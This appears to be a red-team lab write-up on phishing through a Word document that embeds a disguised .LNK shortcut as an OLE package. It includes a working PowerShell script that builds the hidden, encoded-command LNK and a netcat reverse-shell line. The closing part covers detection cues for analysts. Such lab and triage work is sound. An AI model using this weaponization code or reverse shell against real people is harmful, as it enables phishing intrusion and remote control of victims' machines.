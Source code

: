 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../../.gitbook/assets/ole-payload.png)

Final result:

![](../../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../../.gitbook/assets/ole-execution2.png)

{% file src="../../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" caption="" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" caption="" %}


